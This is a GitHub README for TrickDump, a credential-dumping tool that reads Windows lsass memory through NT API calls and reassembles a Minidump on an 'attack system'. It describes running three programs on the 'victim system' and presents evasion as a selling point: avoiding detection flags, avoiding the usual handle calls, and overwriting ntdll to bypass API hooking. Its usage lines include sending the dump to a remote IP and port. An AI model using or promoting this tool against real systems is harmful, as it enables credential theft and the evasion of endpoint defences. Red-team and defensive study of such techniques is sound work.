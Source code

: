 # TrickDump

TrickDump dumps the lsass process without creating a Minidump file, generating instead 3 JSON and 1 ZIP file with the memory region dumps. In three steps:

- **Lock**: Get OS information using RtlGetVersion.

- **Shock**: Get SeDebugPrivilege privilege with NtOpenProcessToken and NtAdjustPrivilegeToken, open a handle with NtGetNextProcess and NtQueryInformationProcess and then get modules information using NtQueryInformationProcess and NtReadVirtualMemory.

- **Barrel**: Get SeDebugPrivilege privilege, open a handle and then get information and dump memory regions using NtQueryVirtualMemory and NtReadVirtualMemory. 


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/trickdump.drawio.png)


In the attack system, use the *create_dump.py* script to generate the Minidump file:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE] 
```

The benefits of this technique are:

- There is never a valid Minidump file in disk, memory or the network traffic.

- There is not a single program or process executing the whole attack but three separate ones, which may raise less flags.
  - If you prefer to run only one program you can use [Trick](#all-in-one).
  - If you already have information about the OS of the target machine you can skip the first step ("Lock").
  

- The programs only use NTAPIS (this project is a variant of [NativeDump](https://github.com/ricardojoserf/NativeDump)).

- It does not use OpenProcess or NtOpenProcess to get the lsass process handle with the *PROCESS_VM_OPERATION* and *PROCESS_VM_WRITE* access rights.
    
- Each program allows to overwrite the ntdll.dll library ".text" section to bypass API hooking:
  - "disk": Using a DLL already on disk. If a second argument is not used the path is "C:\Windows\System32\ntdll.dll".
  - "knowndlls": Using the KnownDlls folder.
  - "debugproc": Using a process created in debug mode. If a second argument is not used the process is "c:\windows\system32\calc.exe".

It comes in five flavours:

- .NET: The main branch
- Python: The [python-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/python-flavour)
- Golang: The [golang-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/golang-flavour)
- C/C++:  The [c-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/c-flavour)
- BOF files: The [bof-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/bof-flavour)
- Crystal: The [crystal-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/crystal-flavour)


It will not work if PPL is enabled, ~~the PEB structure is unreadable~~ or the binaries are not compiled as 64-bit. **Update**: Now it is possible to execute the programs without reading the PEB, check the [peb-unreadable branch](https://github.com/ricardojoserf/TrickDump/tree/peb-unreadable) :)



-------------------------

## Usage

The programs are executed in the victim system, creating three JSON files (with memory regions information) and one zip file (with each memory region dump).

```
Lock.exe [disk/knowndlls/debugproc]
```

```
Shock.exe [disk/knowndlls/debugproc]
```

```
Barrel.exe [disk/knowndlls/debugproc]
```
You can execute the programs directly without overwriting the ntdll.dll library:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_1.png)

Or use one of the three different overwrite techniques:

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_2.png)

Then the Minidump file is generated:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_3.png)

-------------------------

## All in one

If you prefer to execute only one binary, Trick.exe generates a ZIP file containing the 3 JSON files and the ZIP file with the memory regions:

```
Trick.exe [disk/knowndlls/debugproc] [IP_ADDRESS] [PORT]
```

You can create the ZIP file locally, optionally using a Ntdll overwrite method:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_5.png)

Or send it to a remote port using the second and third parameter as the IP address and the port:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_6.png)

In both cases you get a ZIP file like this, unzip it and create the Minidump file:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_7.png)


----------------------------------

## ⭐ Support This Project by Starring the Repository!

If you find this project helpful or interesting, please consider giving it a star 🌟 on GitHub! :)
